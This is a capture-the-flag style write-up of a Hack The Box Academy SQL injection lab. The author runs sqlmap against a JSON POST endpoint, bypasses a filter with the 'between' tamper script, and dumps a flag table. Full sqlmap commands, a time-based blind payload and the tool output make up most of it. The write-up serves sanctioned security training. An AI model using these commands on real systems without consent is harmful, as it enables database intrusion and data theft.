

# Write-up: SQL Injection Fundamentals

| Vulnerability | Difficulty | Platform | Key concepts |
| :--- | :--- | :--- | :--- |
| SQL Injection | Easy | Hack The Box Academy | SQLi Detection, SQLMap, Data exfiltration |

---

# Context

You are given access to a web application with basic protection mechanisms. Use the skills learned in this module to find the SQLi vulnerability with SQLMap and exploit it accordingly. To complete this module, find the flag and submit it here.


# Exercise

What's the contents of table final_flag?

# Process

## Step 1 "Search potential attack"

Navigate through the website to find potential attack vectors.


## Step 2 "Get cURL"
Now that we found a call to the endpoint, we can copy the call as cURL.
```ps
curl 'http://94.237.55.43:34697/action.php' -X POST -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.55.43:34697/shop.html' -H 'Content-Type: application/json' -H 'Origin: http://94.237.55.43:34697' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Sec-GPC: 1' -H 'Priority: u=0' --data-raw '{"id":1}'
```

This will help us build the right command for SQLMap

## Step 3 "Try call with SQLMap"
Let's try this command with SQLMap, we also added `--batch` this way SQLMap will not stop when it ask a question.

```ps
┌─[us-academy-6]─[10.10.15.4]─[htb-ac-1889896@htb-hxqshubmjv]─[~]
└──╼ [★]$ sqlmap -u 'http://94.237.60.55:40755/action.php' -X POST -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.60.55:40755/shop.html' -H 'Content-Type: application/json' -H 'Origin: http://94.237.60.55:40755' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Sec-GPC: 1' -H 'Priority: u=0' --data-raw '{"id":1}' --batch
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.8.12#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:22:34 /2025-08-23/

JSON data found in POST body. Do you want to process it? [Y/n/q] Y

.....

[23:26:37] [INFO] testing 'MySQL UNION query (NULL) - 41 to 60 columns'
[23:26:39] [INFO] testing 'MySQL UNION query (random number) - 41 to 60 columns'
[23:26:41] [INFO] testing 'MySQL UNION query (NULL) - 61 to 80 columns'
[23:26:44] [INFO] testing 'MySQL UNION query (random number) - 61 to 80 columns'
[23:26:46] [INFO] testing 'MySQL UNION query (NULL) - 81 to 100 columns'
[23:26:48] [INFO] testing 'MySQL UNION query (random number) - 81 to 100 columns'
[23:26:50] [INFO] checking if the injection point on (custom) POST parameter 'JSON id' is a false positive
[23:27:01] [WARNING] it appears that the character '>' is filtered by the back-end server. You are strongly advised to rerun with the '--tamper=between'
(custom) POST parameter 'JSON id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 2203 HTTP(s) requests:
---
Parameter: JSON id ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id":"1 AND (SELECT 3085 FROM (SELECT(SLEEP(5)))sfIq)"}
---
[23:27:01] [INFO] the back-end DBMS is MySQL
[23:27:01] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[23:27:06] [INFO] fetched data logged to text files under '/home/htb-ac-1889896/.local/share/sqlmap/output/94.237.60.55'
[23:27:06] [WARNING] your sqlmap version is outdated

[*] ending @ 23:27:06 /2025-08-23/
```

As we can see, the command give us this:
```ps
[23:27:01] [WARNING] it appears that the character '>' is filtered by the back-end server. You are strongly advised to rerun with the '--tamper=between'
```
That means we need to bypass WAF/IPS solutions with `--tamper=between`, this work by replacing all occurrences of greater than operator (`>`) with `NOT BETWEEN 0 AND #`, and the equals operator (`=`) with `BETWEEN # AND #`. This way, many primitive protection mechanisms (focused mostly on preventing XSS attacks) are easily bypassed, at least for SQLi purposes.

We also get this log:
```ps
(custom) POST parameter 'JSON id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 2203 HTTP(s) requests:
---
Parameter: JSON id ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id":"1 AND (SELECT 3085 FROM (SELECT(SLEEP(5)))sfIq)"}
---
```
This means that the page is vulnerable.

## Step 4 "Get Databases"
Now that we know the page is vulnerable, we can try getting all the databases with `--dbs`
```ps
┌─[us-academy-6]─[10.10.15.4]─[htb-ac-1889896@htb-hxqshubmjv]─[~]
└──╼ [★]$ sqlmap -u 'http://94.237.60.55:40755/action.php' -X POST -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.60.55:40755/shop.html' -H 'Content-Type: application/json' -H 'Origin: http://94.237.60.55:40755' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Sec-GPC: 1' -H 'Priority: u=0' --data-raw '{"id":1}' --batch --tamper=between --dbs
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.12#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:30:51 /2025-08-23/

[23:30:51] [INFO] loading tamper module 'between'
JSON data found in POST body. Do you want to process it? [Y/n/q] Y
[23:30:51] [INFO] resuming back-end DBMS 'mysql' 
[23:30:51] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON id ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id":"1 AND (SELECT 3085 FROM (SELECT(SLEEP(5)))sfIq)"}
---
[23:30:51] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[23:30:51] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[23:30:51] [INFO] fetching database names
[23:30:51] [INFO] fetching number of databases
[23:30:51] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                       
[23:30:55] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
2
[23:31:06] [INFO] retrieved: 
[23:31:11] [INFO] adjusting time delay to 1 second due to good response times
information_schema
[23:32:21] [INFO] retrieved: production
available databases [2]:
[*] information_schema
[*] production

[23:33:03] [INFO] fetched data logged to text files under '/home/htb-ac-1889896/.local/share/sqlmap/output/94.237.60.55'
[23:33:03] [WARNING] your sqlmap version is outdated

[*] ending @ 23:33:03 /2025-08-23/
```
It found two options!
```ps
available databases [2]:
[*] information_schema
[*] production
```

## Step 5 "Get Tables"
In this exercise we already know which table we are looking for, but let's search for all the tables available in the `production` database with `--tables`.

```ps
┌─[us-academy-6]─[10.10.15.4]─[htb-ac-1889896@htb-hxqshubmjv]─[~]
└──╼ [★]$ sqlmap -u 'http://94.237.60.55:40755/action.php' -X POST -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.60.55:40755/shop.html' -H 'Content-Type: application/json' -H 'Origin: http://94.237.60.55:40755' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Sec-GPC: 1' -H 'Priority: u=0' --data-raw '{"id":1}' --batch --tamper=between -D production --tables
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8.12#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:35:38 /2025-08-23/

[23:35:38] [INFO] loading tamper module 'between'
JSON data found in POST body. Do you want to process it? [Y/n/q] Y
[23:35:38] [INFO] resuming back-end DBMS 'mysql' 
[23:35:38] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON id ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id":"1 AND (SELECT 3085 FROM (SELECT(SLEEP(5)))sfIq)"}
---
[23:35:39] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[23:35:39] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[23:35:39] [INFO] fetching tables for database: 'production'
[23:35:39] [INFO] fetching number of tables for database 'production'
[23:35:39] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                       
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[23:35:47] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
5
[23:35:53] [INFO] retrieved: 
[23:35:58] [INFO] adjusting time delay to 1 second due to good response times
final_flag
[23:36:38] [INFO] retrieved: order_items
[23:37:24] [INFO] retrieved: products
[23:37:58] [INFO] retrieved: categories
[23:38:33] [INFO] retrieved: brands
Database: production
[5 tables]
+-------------+
| brands      |
| categories  |
| final_flag  |
| order_items |
| products    |
+-------------+

[23:38:55] [INFO] fetched data logged to text files under '/home/htb-ac-1889896/.local/share/sqlmap/output/94.237.60.55'
[23:38:55] [WARNING] your sqlmap version is outdated

[*] ending @ 23:38:55 /2025-08-23/
```
And it has the final_flag table.

## Step 6 "Get final_flag table"
Then we can finally get the values inside `final_flag` with `-T final_flag` and `--dump` to see the data inside.
```ps
┌─[us-academy-6]─[10.10.15.4]─[htb-ac-1889896@htb-hxqshubmjv]─[~]
└──╼ [★]$ sqlmap -u 'http://94.237.60.55:40755/action.php' -X POST -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.60.55:40755/shop.html' -H 'Content-Type: application/json' -H 'Origin: http://94.237.60.55:40755' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Sec-GPC: 1' -H 'Priority: u=0' --data-raw '{"id":1}' --batch --tamper=between -D production -T final_flag --dump
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.12#stable}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:43:05 /2025-08-23/

[23:43:05] [INFO] loading tamper module 'between'
JSON data found in POST body. Do you want to process it? [Y/n/q] Y
[23:43:05] [INFO] resuming back-end DBMS 'mysql' 
[23:43:05] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON id ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id":"1 AND (SELECT 3085 FROM (SELECT(SLEEP(5)))sfIq)"}
---
[23:43:05] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[23:43:05] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[23:43:05] [INFO] fetching columns for table 'final_flag' in database 'production'
[23:43:05] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                       
[23:43:09] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
2
[23:43:20] [INFO] retrieved: 
[23:43:25] [INFO] adjusting time delay to 1 second due to good response times
id
[23:43:32] [INFO] retrieved: content
[23:44:02] [INFO] fetching entries for table 'final_flag' in database 'production'
[23:44:02] [INFO] fetching number of entries for table 'final_flag' in database 'production'
[23:44:02] [INFO] retrieved: 1
[23:44:04] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                                                                                              
HTB{n07_50_h4rd_r16h7?!}
[23:45:55] [INFO] retrieved: 1
Database: production
Table: final_flag
[1 entry]
+----+--------------------------+
| id | content                  |
+----+--------------------------+
| 1  | HTB{n07_50_h4rd_r16h7?!} |
+----+--------------------------+

[23:45:58] [INFO] table 'production.final_flag' dumped to CSV file '/home/htb-ac-1889896/.local/share/sqlmap/output/94.237.60.55/dump/production/final_flag.csv'
[23:45:58] [INFO] fetched data logged to text files under '/home/htb-ac-1889896/.local/share/sqlmap/output/94.237.60.55'
[23:45:58] [WARNING] your sqlmap version is outdated

[*] ending @ 23:45:58 /2025-08-23/
```
## Result
```
HTB{n07_50_h4rd_r16h7?!}
```

# Conclusion
The ability to automate the detection and exploitation of SQLi vulnerabilities with SQLMap—from enumerating databases and tables to extracting sensitive data—is a key competency for penetration testing. This module has provided me with a solid foundation upon which I will continue to build my skills in identifying, assessing, and mitigating these types of risks in real-world applications. Without a doubt, this was an essential and directly applicable learning experience for my professional development in the field of offensive security.
